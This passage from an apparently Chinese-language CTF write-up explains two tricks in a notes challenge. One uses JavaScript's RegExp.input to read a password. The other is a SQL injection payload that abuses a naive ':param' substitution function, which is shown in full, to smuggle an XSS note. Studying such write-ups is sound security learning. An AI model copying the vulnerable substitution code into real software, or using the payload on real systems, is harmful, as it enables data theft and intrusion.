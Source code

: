 我當時怎麼看都不覺得可以偷到密碼，賽後看 writeup 才知道一個神奇的屬性：[RegExp.input](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input)，這個屬性可以拿到 RegExp 最後一次的 input，例如說這樣：

``` js
/a/.test('secret password')
console.log(RegExp.input) // secret password
```

而 password 就是最後一次丟去 `/^[^$']+$/.test()` 的輸入，所以就可以藉此拿到 password，這真的是 mind-blowing。

但這邊還有個細節，那就是如果你用了 markdown XSS，最後配對的 regexp 就不是 password 了，所以就拿不到。這時候你必須找出 server 的 SQL injection，程式碼如下：

``` js
const db = {
  prepare: (query, params) => {
    if (params)
      for (const [key, value] of Object.entries(params)) {
        const clean = value.replace(/['$]/g, '');
        query = query.replaceAll(`:${key}`, `'${clean}'`);
      }
    return query;
  },
  get: (query, params) => {
    const prepared = db.prepare(query, params);
    try {
      return database.prepare(prepared).get();
    } catch {}
  },
  run: (query, params) => {
    const prepared = db.prepare(query, params);
    try {
      return database.prepare(prepared).run();
    } catch {}
  },
};

const id = crypto.randomBytes(16).toString('hex');
db.run('INSERT INTO notes VALUES (:id, :username, :note, :mode, 0)', {
  id,
  username,
  note: note.replace(/[<>]/g, ''),
  mode,
});
```

會把所有單引號跟 $ 拿掉，然後去 replace 所有的 `:param`，這時候可以利用這個特性來注入，例如說這樣 (from DrBrix)：

```
"username": "a :note",
"password": "pass"
"note": ", :mode, 0, 0) -- ",
"mode": "actual note and xss"
```
